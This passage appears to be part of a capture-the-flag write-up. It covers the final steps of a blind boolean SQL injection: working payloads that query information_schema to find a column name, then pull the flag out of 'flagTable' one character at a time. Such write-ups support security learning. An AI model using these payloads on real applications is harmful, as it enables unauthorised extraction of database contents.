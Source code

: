 ### Step 6. Discovering the Column Name

Payload used:
```
normaltic' and ascii(substr((select column_name from information_schema.columns where table_name='flagTable' limit 0,1), 1, 1))>0 and '1'='1
```
Using the same character-by-character approach, the column name flag was revealed.

### Step 7. Extracting the Flag Data

Final payload:

```
normaltic' and ascii(substr((select flag from flagTable limit 0,1), 1, 1))>0 and '1'='1
```
We extracted the value from the flagTable by applying the substr() condition for each character.
The data was extracted one character at a time using ASCII-based binary search or direct character comparison.

substr((select flag from flagTable limit 0,1), 1, 1) = 's'  
substr((select flag from flagTable limit 0,1), 2, 1) = 'e'  
...  
substr((select flag from flagTable limit 0,1), N, 1) = '}'  










